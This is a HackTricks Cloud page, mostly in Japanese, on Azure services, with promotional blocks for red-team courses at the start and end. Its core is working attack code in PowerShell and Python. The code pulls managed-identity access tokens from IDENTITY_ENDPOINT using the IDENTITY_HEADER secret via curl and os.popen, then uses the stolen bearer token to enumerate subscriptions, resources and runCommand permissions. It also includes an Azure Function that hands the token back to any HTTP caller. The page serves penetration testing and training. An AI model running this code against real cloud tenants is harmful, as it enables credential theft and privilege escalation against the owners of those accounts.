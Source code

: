 # Az - Services

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ポータル

**Microsoftポータルのリストは** [**https://msportals.io/**](https://msportals.io/) **で見つけることができます。**

### 生リクエスト

#### Powershell経由のAzure API

**IDENTITY\_HEADER** と **IDENTITY\_ENDPOINT** から **access\_token** を取得します: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`。

次に、Azure REST APIにクエリを送信して **subscription ID** などを取得します。
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API via Python バージョン
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
またはPython関数内で：
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## サービスの一覧

**このセクションのページはAzureサービスによって整理されています。ここでは、サービスに関する情報（どのように機能し、能力があるか）や、各サービスを列挙する方法を見つけることができます。**

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
